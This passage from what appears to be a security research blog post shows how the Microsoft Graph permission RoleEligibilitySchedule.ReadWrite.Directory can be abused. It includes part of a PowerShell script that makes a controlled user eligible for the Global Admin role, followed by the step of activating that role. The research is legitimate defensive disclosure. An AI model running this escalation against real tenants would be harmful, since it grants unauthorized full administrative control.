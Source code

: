 ```
    directoryScopeId = '/'
    principalId = $userId
    scheduleInfo = @{
        startDateTime = $yesterday
        expiration = @{
            type = 'NoExpiration'
        }
    }
}

$body = ConvertTo-Json -InputObject $eligibleAssignment
$response = Invoke-WebRequest -Method Post -Uri $uri -Headers $headers -Body $body
$response
```

By executing the above PowerShell script, we can confirm that the [`RoleEligibilitySchedule.ReadWrite.Directory`](https://learn.microsoft.com/en-us/graph/permissions-reference#roleeligibilityschedulereadwritedirectory) permission can be leveraged to make a controlled user account eligible to the Global Admin role:

[![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/04_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/04_screenshot.png)

[![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/05_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/06_screenshot.png)

The next step is to log in with the user account and activate the role to become an active Global Admin ([what if the activation requires admin approval?](https://www.emiliensocchi.io/abusing-pim-related-application-permissions-in-microsoft-graph-part-3)):

[![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/07_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/07_screenshot.png)
